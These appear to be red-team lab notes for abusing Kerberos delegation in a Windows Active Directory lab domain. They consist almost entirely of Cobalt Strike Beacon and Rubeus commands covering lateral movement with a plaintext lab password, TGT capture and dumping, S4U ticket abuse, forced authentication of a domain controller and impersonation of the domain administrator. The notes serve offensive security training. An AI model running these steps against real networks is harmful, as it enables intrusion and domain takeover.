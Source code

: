 
### Unconstrained Delegation
- Use LDAP to find computers configured for unconstrained delegation.
    
    BeaconTypeCopy
    
    `ldapsearch (&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288)) --attributes samaccountname`
    
-  Move laterally to _lon-ws-1_.
    
    2.  make_token CONTOSO\rsteel Passw0rd!
    3.  jump psexec64 lon-ws-1 smb

-  Run Rubeus in monitor mode on _lon-ws-1_.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /nowrap`
    
-  Wait 1-2 minutes for the TGT of a domain administrator to be captured.
    
-  Stop Rubeus.
    
    1. jobs
    2. jobkill 0

-  Inject the captured TGT into a sacrificial logon session.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:CONTOSO.COM /username:dyork /password:FakePass /ticket:[TICKET]`
    
-  Impersonate the spawned process.
    
    1. steal_token [PID]
-  Verify the ticket is present.
    
    1. run klist
-  Use it to access _lon-dc-1_.
    
    1. ls \\lon-dc-1\c$
-  Drop the impersonation.
    
    1. rev2self
-  Terminate the spawned process.
    
    1. kill [PID]

### Constrained Delegation
- Search for computers whose msDS-AllowedToDelegateTo attribute is not null.
    
    BeaconTypeCopy
    
    `ldapsearch (&(samAccountType=805306369)(msDS-AllowedToDelegateTo=*)) --attributes samAccountName,msDS-AllowedToDelegateTo`
    
-  Get the UAC value for _lon-ws-1_ to see if the **TRUSTED_TO_AUTH_FOR_DELEGATION** flag is set.
    
    BeaconTypeCopy
    
    `ldapsearch (&(samAccountType=805306369)(samaccountname=lon-ws-1$)) --attributes userAccountControl`
    
    TerminalTypeCopy
    
    `[Convert]::ToBoolean(16781312 -band 16777216)`
    
-  Move laterally to _lon-ws-1_.
    
    2.  make_token CONTOSO\rsteel Passw0rd!
    3.  jump psexec64 lon-ws-1 smb
-  Dump _lon-ws-1_'s TGT.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e7 /service:krbtgt /nowrap`
    
-  Perform the S4U abuse to obtain a usable service ticket for _cifs/lon-fs-1_, impersonating the default domain admin.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:lon-ws-1$ /msdsspn:cifs/lon-fs-1 /ticket:[TGT] /impersonateuser:Administrator /nowrap`
    
-  Inject the ticket into a sacrificial logon session.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:CONTOSO.COM /username:Administrator /password:FakePass /ticket:[CIFS TICKET]`
    
-  Impersonate the process.
    
    1. steal_token [PID]
-  Verify the ticket has been injected.
    
    1. run klist
-  Use the ticket to access _lon-fs-1_.
    
    1. ls \\lon-fs-1\c$

### Service Name Substitution
- Search for computers whose msDS-AllowedToDelegateTo attribute is not null.
    
    BeaconTypeCopy
    
    `ldapsearch (&(samAccountType=805306369)(msDS-AllowedToDelegateTo=*)) --attributes samAccountName,msDS-AllowedToDelegateTo`
    
-  Get the UAC value for _lon-ws-1_ to see if the **TRUSTED_TO_AUTH_FOR_DELEGATION** flag is set.
    
    BeaconTypeCopy
    
    `ldapsearch (&(samAccountType=805306369)(samaccountname=lon-ws-1$)) --attributes userAccountControl`
    
-  Move laterally to _lon-ws-1_.
    
    2.  make_token CONTOSO\rsteel Passw0rd!
    3.  jump psexec64 lon-ws-1 smb
-  Dump the TGT for _lon-ws-1_.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e7 /service:krbtgt /nowrap`
    
-  Perform the S4U abuse to obtain a usable service ticket for _time/lon-dc-1_, substituting the service name for _cifs_.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:lon-ws-1$ /msdsspn:time/lon-dc-1 /altservice:cifs /ticket:[TGT] /impersonateuser:Administrator /nowrap`
    
-  Inject the ticket into a sacraficial logon session.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:CONTOSO.COM /username:Administrator /password:FakePass /ticket:[CIFS TICKET]`
    
-  Impersonate the process.
    
    1. steal_token [PID]
-  Verify the ticket has been injected.
    
    1. run klist
-  Use the ticket to list the C$ share on _lon-dc-1_.
    
    1. ls \\lon-dc-1\c$


### S4Uself 

- Use LDAP to find computers configured with unconstrained delegation.
    
    BeaconTypeCopy
    
    `ldapsearch (&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288)) --attributes samaccountname`
    
-  Move laterally to _lon-ws-1_.
    
    2.  make_token CONTOSO\rsteel Passw0rd!
    3.  jump psexec64 lon-ws-1 smb
-  Run Rubeus in monitor mode on _lon-ws-1_.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /nowrap`
    
-  From the medium-integrity Beacon, use a remote authentication trigger to force _lon-dc-1_ to authenticate to _lon-ws-1_.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\SharpSystemTriggers\SharpSpoolTrigger\bin\Release\SharpSpoolTrigger.exe lon-dc-1 lon-ws-1`
    
    > You may need to run it a few times.
    
-  Use the TGT to request a usable service ticket for cifs/lon-dc-1, impersonating the default domain administrator.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:Administrator /self /altservice:cifs/lon-dc-1 /ticket:[TGT] /nowrap`
    
    > The **/self** parameter is key here.
    
-  Inject the ticket into a sacraficial logon session.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:CONTOSO.COM /username:Administrator /password:FakePass /ticket:[CIFS TICKET]`
    
-  Impersonate the process.
    
    1. steal_token [PID]
-  Verify the ticket was injected.
    
    1. run klist
-  Use the ticket to list the C$ share on _lon-dc-1_.
    
    1. ls \\lon-dc-1\c$